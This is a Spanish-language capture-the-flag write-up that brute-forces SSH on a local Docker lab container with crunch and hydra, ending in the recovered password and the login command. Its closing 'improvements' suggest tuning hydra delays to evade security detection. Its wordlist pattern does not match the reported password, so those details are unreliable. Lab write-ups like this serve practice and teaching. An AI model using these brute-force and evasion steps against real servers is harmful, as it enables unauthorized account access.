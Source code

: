 ## Reto CTF: Acceso SSH a Contenedor Ubuntu

## Descripción del Reto

En este reto se proporciona una imagen Docker basada en Ubuntu con un servicio SSH habilitado. El objetivo es:

Desplegar el contenedor Docker y exponer el puerto SSH.

Identificar el usuario objetivo (legion).

Generar un diccionario de posibles contraseñas con crunch.

Realizar un ataque de fuerza bruta al servicio SSH usando hydra.

Obtener la contraseña correcta y acceder al contenedor como legion.

## 1. Prerrequisitos

Docker instalado y en ejecución.

Herramientas en Kali Linux: crunch, hydra.

1. Despliegue del Contenedor SSH

Se usa la imagen jaiderospina/retoctf:1.0 y se expone el puerto local 2222 al 22 interno.

# Eliminamos contenedor previo (si existe)
docker rm -f mi-contenedor-ssh



# Desplegamos el contenedor en background
docker run -d -p 2222:22 --name mi-contenedor-ssh jaiderospina/retoctf:1.0


docker ps


2. Generación de Diccionario de Contraseñas

Con crunch se genera un archivo esdeo.lst con combinaciones de 5 caracteres siguiendo el patrón ES%?0.

crunch 5 5 -t ES%?0 -o esdeo.lst


3. Ataque de Fuerza Bruta con Hydra

Configuramos hydra para atacar SSH en el puerto 2222, con usuario legion y diccionario esdeo.lst.

hydra -l legion -P esdeo.lst -s 2222 localhost ssh


Tras revisar que no se encontró contraseña, se ajusta el diccionario (por ejemplo, mayúsculas mixtas) y se vuelve a ejecutar:

hydra -l legion -P combinadas.lst -s 2222 localhost ssh


La contraseña hallada fue:

Esdeg

4. Acceso al Contenedor como legion

Con la contraseña válida obtenemos acceso SSH:

ssh legion@localhost -p 2222

5. Conclusiones y Posibles Mejoras

La combinación de Docker, crunch y hydra permite automatizar un ataque de fuerza bruta eficaz en entornos controlados.

Mejoras:

Implementar reglas de exclusión y throttling para reducir la carga en el servidor SSH.

Añadir delays o cambiar el número de tareas paralelas (-t) en hydra para evadir detecciones de seguridad.

Probar ataques dirigidos con reglas de Hashcat y diccionarios más completos.
